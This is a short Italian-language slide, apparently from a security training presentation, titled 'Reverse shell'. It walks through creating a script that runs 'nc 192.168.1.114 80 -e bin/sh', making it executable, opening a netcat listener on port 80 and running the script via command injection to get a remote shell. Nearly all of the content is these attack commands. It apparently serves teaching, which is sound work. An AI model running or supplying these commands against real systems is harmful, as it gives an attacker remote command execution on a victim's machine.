

# Reverse shell
Tramite redirecting dell’ouput di echo eseguo questo comando.
echo nc 192.168.1.114 80 –e bin/sh > example.sh && chmod +x example.sh
Dove il secondo comando rende esegubile lo script.
Dopodichè mi metto in ascolto sulla porta 80 tramite netcat in modalita verbosa con il comando
nc –lvp 80
Eseguo lo script iniettando il comando
sh example.sh